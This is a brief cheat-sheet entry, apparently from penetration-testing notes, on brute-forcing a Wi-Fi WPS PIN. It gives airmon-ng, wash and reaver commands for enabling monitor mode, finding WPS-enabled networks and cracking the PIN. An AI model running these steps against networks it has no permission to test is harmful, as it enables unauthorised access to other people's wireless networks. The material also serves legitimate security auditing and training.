 # WPS

> WPS can be attacked using a brute-force on the PIN (has only about 11,000 valid combinations).

1. Set Wireless adapted to monitor mode.

```bash
airmon-ng start wlan0
```

2. Run a tool like _wash_ to identificate candidate WPS enabled networks (note the BSSID and channel).

```bash
wash -i wlan0mon
```

3. Use reaver to crack the PIN (care with lockdowns).

```bash
reaver -i wlan0mon -b $BSSID -c $CHANNELNUM -vv
```

Reaver is smart enough to remember where it was, and will ask you if you want to resume an interrupted session. So the cracking can be done in a number of sessions.
